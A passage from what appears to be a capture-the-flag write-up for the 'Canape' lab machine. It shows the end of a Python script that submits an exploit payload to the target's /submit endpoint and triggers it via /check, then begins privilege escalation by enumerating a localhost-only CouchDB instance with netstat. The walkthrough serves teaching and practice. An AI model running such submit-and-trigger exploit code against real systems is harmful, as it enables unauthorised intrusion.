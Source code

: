         char = exploit[:-1]
        quote = exploit[-1:]
        id_ = md5(char+quote).hexdigest()

        print("[*] Filename will be: {}".format(id_))
        print("[*] Exploit:\n{}".format(exploit))
        print("[+] Sending exploit...")
        r = requests.post('http://10.10.10.70/submit', data = {'character': char, 'quote': quote})
        if r.status_code != 200:
            print("[-] Error submitting exploit to /submit")
            sys.exit()
        print("[+] Exploit successfully submitted")

        print("[+] Triggering exploit with /check, id = {}".format(id_))
        try:
            r = requests.post('http://10.10.10.70/check', data = {'id': id_}, timeout=1)
        except:
            pass

    if __name__ == "__main__":
        main()



## PrivEsc: www-data --\> homer

There are a few interesting artifacts on the box, but it turns out that
the path forward is in the CouchDB instance.

### CouchDB

#### Enumeration

The page source also showed that the simpsons quotes were stored in a
couchdb:



    app.config.update(
        DATABASE = "simpsons"
    )
    db = couchdb.Server("http://localhost:5984/")[app.config["DATABASE"]]



The couchdb is only on localhost:



    www-data@canape:/var/www/git$ netstat -ano | grep "LISTEN "
    netstat -ano | grep "LISTEN "
    tcp        0      0 0.0.0.0:65535           0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 0.0.0.0:41991           0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp6       0      0 :::65535                :::*                    LISTEN      off (0.00/0/0)
    tcp6       0      0 :::4369                 :::*                    LISTEN      off (0.00/0/0)
